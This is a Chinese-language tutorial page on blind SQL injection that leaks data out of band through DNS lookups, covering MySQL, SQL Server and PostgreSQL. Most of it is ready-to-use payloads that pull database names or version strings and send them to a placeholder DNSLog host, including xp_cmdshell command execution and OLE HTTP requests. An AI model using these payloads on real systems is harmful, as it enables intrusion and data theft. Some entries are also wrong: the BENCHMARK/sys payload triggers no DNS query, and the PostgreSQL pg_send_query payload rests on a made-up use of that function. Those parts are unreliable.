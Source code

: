 ### SQL 注入无回显利用 DNSLog 如何构造

**1. MySQL/MariaDB**

在 MySQL 和 MariaDB 中，`LOAD_FILE()` 函数和 `UNC` 路径（Windows 共享路径）是触发 DNS 查询的常用手段

**a. 利用 `LOAD_FILE()`**

`LOAD_FILE()` 函数用于读取文件内容，但如果给它一个 UNC 路径，它会触发 DNS 查询

- **Payload 构造：** `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT DATABASE()),'.your-dnslog.com\\a'));`
- **解释：**
  - `SELECT DATABASE()`：获取当前数据库名
  - `CONCAT(...)`：将数据库名与你的 DNSlog 域名拼接成一个新的域名，例如 `testdb.your-dnslog.com`
  - `LOAD_FILE()`：尝试加载这个 UNC 路径，由于域名不存在本地，它会发起 DNS 查询
  - `\\a`：这是一个占位符，用于避免语法错误

**b. 利用 `DNS_REVERSE()` 和 `BENCHMARK()`**

这是一个更高级的技巧，需要 MySQL 5.7.10 或更高版本，且安装了 `sys` 模式

- **Payload 构造：** `SELECT BENCHMARK(1000000,MD5(CONCAT('a',(SELECT DATABASE())))) AND (SELECT sys.version_get_option('version') LIKE '%DNS%');`
  - 注意：这个方法主要是为了演示 `sys` 库的功能，实际操作中 `LOAD_FILE` 更常见

**2. SQL Server**

在 SQL Server 中，我们可以利用 `xp_cmdshell` 或 `sp_oacreate` 来触发 DNS 查询

**a. 利用 `xp_cmdshell`**

`xp_cmdshell` 是一个强大的存储过程，可以执行系统命令。我们可以利用 `ping` 命令来触发 DNS 查询

- **Payload 构造：** `EXEC xp_cmdshell 'ping -n 1 ' + (SELECT TOP 1 CAST(name AS VARCHAR(255)) FROM sys.databases) + '.your-dnslog.com';`
- **解释：**
  - `xp_cmdshell`：执行 `ping` 命令
  - `SELECT TOP 1 CAST(name AS VARCHAR(255)) FROM sys.databases`：获取第一个数据库的名称
  - `+`：将数据库名与你的 DNSlog 域名拼接

**b. 利用 `sp_oacreate`**

`sp_oacreate` 可以创建 OLE 对象，我们可以利用它来发起 HTTP 请求，从而触发 DNS 查询

- **Payload 构造：** `DECLARE @h INT; EXEC sp_oacreate 'WinHttp.WinHttpRequest.5.1', @h OUT; EXEC sp_oamethod @h, 'Open', NULL, 'GET', 'http://' + (SELECT TOP 1 CAST(name AS VARCHAR(255)) FROM sys.databases) + '.your-dnslog.com';`



#### 3. PostgreSQL



------

在 PostgreSQL 中，`COPY` 命令和 `pg_sleep` 结合可以实现 DNSlog。但更直接的方法是利用 `pg_send_query` 或 `UDF`（用户定义函数）。

- **Payload 构造：** `SELECT * FROM users WHERE id = 1 AND (SELECT pg_send_query('SELECT * FROM ' || (SELECT version()) || '.your-dnslog.com')) IS NOT NULL;`
- **解释：**
  - `pg_send_query()`：用于发送一个查询。
  - `(SELECT version())`：获取 PostgreSQL 的版本信息。
  - 这个方法利用了 PostgreSQL 在解析域名时会触发 DNS 查询的特性